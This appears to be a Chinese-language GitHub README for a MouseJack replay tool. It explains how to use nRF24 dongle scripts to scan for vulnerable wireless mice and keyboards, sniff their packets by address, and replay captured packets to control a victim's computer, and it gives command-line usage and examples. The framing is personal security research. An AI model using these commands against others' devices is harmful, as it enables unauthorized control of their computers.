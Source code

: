 # Mousejack replay
## 0x00 简介
Bastille的研究团队发现了一种针对蓝牙键盘鼠标的攻击，攻击者可以利用漏洞控制你的电脑操作。研究团队将此攻击命名为MouseJack。 Mousejack 之前在Freebuf上有所介绍：[MouseJack：利用15美元的工具和15行代码控制无线鼠标和键盘](http://www.freebuf.com/articles/wireless/97023.html)，当然，制作团队也将部分测试代码公开在[github](https://github.com/RFStorm/mousejack/)上，该团队网站地址为：https://www.mousejack.com/ 从视频中，可以看到攻击者通过此技术，直接操纵受害者电脑，但由于目前该团队并没有公开完整代码，所以有了下面的测试代码。
>怎么烧固件这里就不说了，在原[github](https://github.com/RFStorm/mousejack/)有详细说明，drops也有介绍:[Mousejack测试指南](http://drops.wooyun.org/tips/13444)，如果在windows平台，我也写过一个介绍:[windows下刷MouseJack固件](http://zone.wooyun.org/content/25763)。

## 0x01 原脚本测试

该团队所公布的代码主要包括了扫描跟嗅探模块，nrf24-network-mapper.py 中并没有能够让鼠标操作发生明显变化的payload，经过多次测试，写出了此测试脚本，能够完成对无线鼠标操作的重放攻击。

>测试发现，执行依此操作之后，需要对设备进行重新插拔

## 0x02 脚本介绍

### scanner

使用原作者的扫描脚本，此脚本用来扫描附近的无线鼠键：

```
usage: ./nrf24-scanner.py [-h] [-c N [N ...]] [-v] [-l] [-p PREFIX] [-d DWELL]

optional arguments:
  -h, --help                          show this help message and exit
  -c N [N ...], --channels N [N ...]  RF channels
  -v, --verbose                       Enable verbose output
  -l, --lna                           Enable the LNA (for CrazyRadio PA dongles)
  -p PREFIX, --prefix PREFIX          Promiscuous mode address prefix
  -d DWELL, --dwell DWELL             Dwell time per channel, in milliseconds
```

扫描信道 1-5 的设备：

```
./nrf24-scanner.py -c {1..5}
```

扫描起始地址为0xA9的设备的所有信道：

```
./nrf24-scanner.py -p A9
```


### sniffer

修改原作者脚本，将获取的设备数据存储到pack.log 中，之后可以使用mousejack-replay.py脚本对此数据进行重放：

```
usage: ./nrf24-sniffer.py [-h] [-c N [N ...]] [-v] [-l] -a ADDRESS [-t TIMEOUT] [-k ACK_TIMEOUT] [-r RETRIES]

optional arguments:
  -h, --help                                 show this help message and exit
  -c N [N ...], --channels N [N ...]         RF channels
  -v, --verbose                              Enable verbose output
  -l, --lna                                  Enable the LNA (for CrazyRadio PA dongles)
  -a ADDRESS, --address ADDRESS              Address to sniff, following as it changes channels
  -t TIMEOUT, --timeout TIMEOUT              Channel timeout, in milliseconds
  -k ACK_TIMEOUT, --ack_timeout ACK_TIMEOUT  ACK timeout in microseconds, accepts [250,4000], step 250
  -r RETRIES, --retries RETRIES              Auto retry limit, accepts [0,15]
```

嗅探地址为 61:49:66:82:03 设备所有信道的数据包并将数据包保存：

```
./nrf24-sniffer.py -a 61:49:66:82:03
```

### mousejack-replay.py 

在 network mapper 脚本上修改，首先通过Ping获取可用信道，然后读取pack.log中的数据包内容，将每一条数据发送到各个信道，完成数据包重放,测试过程中，发现可用地址一般为3-4个，所以将原脚本改成rang(4)：

```
usage: ./mousejack-replay.py [-h] [-c N [N ...]] [-v] [-l] -a ADDRESS [-p PASSES] [-k ACK_TIMEOUT] [-r RETRIES]

optional arguments:
  -h, --help                                 show this help message and exit
  -c N [N ...], --channels N [N ...]         RF channels
  -v, --verbose                              Enable verbose output
  -l, --lna                                  Enable the LNA (for CrazyRadio PA dongles)
  -a ADDRESS, --address ADDRESS              Known address
  -p PASSES, --passes PASSES                 Number of passes (default 2)
  -k ACK_TIMEOUT, --ack_timeout ACK_TIMEOUT  ACK timeout in microseconds, accepts [250,4000], step 250
  -r RETRIES, --retries RETRIES              Auto retry limit, accepts [0,15]
```

指定地址为 61:49:66:82:03 的设备进行数据包重放：

```
./mousejack-replay.py -a 61:49:66:82:03
```

## 0x03备注
以上为个人测试结果，由于目前手上只有一个鼠标可以测试，可能并不适用所有存在漏洞设备，有兴趣的小伙伴可以找我一起研究，可以对脚本进行进一步的完善。

右键点击演示视频：http://v.youku.com/v_show/id_XMTUwMTQ3Njk4NA==.html

数据重放演示视频：http://v.youku.com/v_show/id_XMTUwMzgwMTQ1Ng==.html


